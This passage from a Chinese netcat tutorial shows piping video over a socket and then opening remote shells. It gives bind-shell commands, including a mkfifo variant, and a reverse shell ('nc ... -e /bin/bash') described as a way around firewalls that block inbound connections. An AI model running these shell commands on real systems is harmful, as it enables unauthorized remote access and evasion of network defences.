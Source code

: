 这里我们只是从一个视频文件中读入并重定向输出到netcat客户端

  $ nc 172.31.100.7 1567 | mplayer -vo x11 -cache 3000 -

这里我们从socket中读入数据并重定向到mplayer。

## 打开一个shell
我们已经用过远程shell, 使用telnet和ssh，但是如果这两个命令没有安装并且我们没有权限安装他们，我们也可以使用netcat创建远程shell。

假设你的netcat支持 -c -e 参数(默认 netcat)

  # Server
  nc -l 1567 -e /bin/bash -i
  # Client
  nc 172.31.100.7 1567

这里我们已经创建了一个netcat服务器并且表示当它连接成功时执行/bin/bash

假如netcat 不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell

  #Server
  mkfifo /tmp/tmp_fifo
  cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp_fifo

这里我们创建了一个fifo文件，然后使用管道命令把这个fifo文件内容定向到shell 2>&1中。是用来重定向标准错误输出和标准输出，然后管道到netcat 运行的端口1567上。至此，我们已经把netcat的输出重定向到fifo文件中。

说明：

1. 从网络收到的输入写到fifo文件中
2. cat 命令读取fifo文件并且其内容发送给sh命令
2. sh命令进程受到输入并把它写回到netcat。
2. netcat 通过网络发送输出到client

至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。

在客户端仅仅简单连接到服务器

  Client
  $nc -n 127.0.0.1 1567

你会得到一个shell提示符在客户端

### 反向shell
反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

  服务端
  $nc -l 1567

在客户端，简单地告诉netcat在连接完成后，执行shell。

  客户端
  $nc 172.31.100.7 1567 -e /bin/bash

现在，什么是反向shell的特别之处呢
反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。
